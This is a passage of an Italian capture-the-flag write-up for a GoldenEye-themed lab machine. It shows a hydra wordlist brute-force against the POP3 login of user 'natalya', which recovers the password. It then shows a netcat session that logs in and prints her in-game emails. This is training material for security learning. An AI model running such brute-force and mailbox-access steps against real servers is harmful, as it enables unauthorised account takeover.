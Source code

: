 ```
```

Il codice si trova nel file /root della macchina, Chi è Xenia? Dov'è il sito di addestramento? Qual è la fase finale?
Finora sappiamo che Boris, Natalya, Janus e l'amministratore sconosciuto sono dietro questo progetto

Cerchiamo di ottenere la password di natalya con hydra
```
hydra -l natalya -P /usr/share/set/src/fasttrack/wordlist.txt 10.10.183.248 -s 55007 pop3
```
```
[55007][pop3] host: 10.10.183.248   login: `natalya`   password: bird 
```
controlliamo la mail 
```
nc 10.10.183.248 55007
```

```
USER natalya
```

```
Pass bird
```
chiediamo lista dei messaggi
```
list
```

```
retr 1
```
```
retr 1
+OK 631 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from ok (localhost [127.0.0.1])
        by ubuntu (Postfix) with ESMTP id D5EDA454B1
        for <natalya>; Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
Message-Id: <20180425024542.D5EDA454B1@ubuntu>
Date: Tue, 10 Apr 1995 19:45:33 -0700 (PDT)
From: root@ubuntu

Natalya, please you need to stop breaking boris' codes. Also, you are GNO supervisor for training. I will email you once a student is designated to you.

Also, be cautious of possible network breaches. We have intel that GoldenEye is being sought after by a crime syndicate named Janus.
.
retr 2
+OK 1048 octets
Return-Path: <root@ubuntu>
X-Original-To: natalya
Delivered-To: natalya@ubuntu
Received: from root (localhost [127.0.0.1])
        by ubuntu (Postfix) with SMTP id 17C96454B1
        for <natalya>; Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
Message-Id: <20180425031956.17C96454B1@ubuntu>
Date: Tue, 29 Apr 1995 20:19:42 -0700 (PDT)
From: root@ubuntu

Ok Natalyn I have a new student for you. As this is a new system please let me or boris know if you see any config issues, especially is it's related to security...even if it's not, just enter it in under the guise of "security"...it'll get the change order escalated without much hassle :)
```